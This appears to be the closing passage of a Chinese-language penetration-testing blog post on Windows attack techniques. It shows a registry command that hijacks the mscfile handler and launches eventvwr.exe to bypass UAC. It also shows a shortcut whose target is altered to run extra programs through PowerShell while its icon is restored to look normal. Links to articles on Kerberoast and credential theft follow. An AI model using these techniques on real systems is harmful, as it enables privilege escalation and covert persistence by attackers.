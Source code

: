     
    reg.exe add hkcu\software\classes\mscfile\shell\open\command /ve /d "c:\windows\system32\cmd.exe /c \"start cmd\"" /feventvwr.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101326.png)

# 0x04 lnk

这里以该快捷文件为例：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101327.png)

修改目标为：

    
    
    powershell.exe -c "invoke-item C:\Users\Administrator\Desktop\AdExplorer\ADExplorer64.exe; invoke-item c:\windows\system32\calc.exe"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101328.png)

再把图标修改回来：

![]()

运行lnk

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101329.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210808101330.png)

 **推荐阅读**

[内网渗透 |
横向移动中MSTSC的密码获取](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498288&idx=1&sn=851640e1e271c348c195bdb7400d62cc&chksm=ec1caf0fdb6b261935f92e8e3458ac01ef27f323668098bc12edb462db60fd9c1c27217a8e21&scene=21#wechat_redirect)  

  

[内网渗透 | SPN 与 Kerberoast
攻击讲解](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497831&idx=1&sn=cdc3aef06751705f8156f35115f6892d&chksm=ec1cad58db6b244e5174b026c9699cf70066ac919ee2213c69742e74bd990be224feee996c03&scene=21#wechat_redirect)  

  

[内网渗透 | Kerberos
协议相关安全问题分析与利用](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497830&idx=1&sn=9dfacfb1a9513c860a3aeb268770097e&chksm=ec1cad59db6b244f05d44dc179ee9969acea9b0371c653992d9a65a80ae235cfa812186316db&scene=21#wechat_redirect)  

  

[内网渗透 | Kerberos 协议与 Kerberos
认证原理](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247497760&idx=1&sn=4c0f57ba9203cc115a85cd0c011fdc43&chksm=ec1cad1fdb6b2409ec3ef25008ad6834a7220997a914308a478ed9d682c84c7b370e423a878c&scene=21#wechat_redirect)  
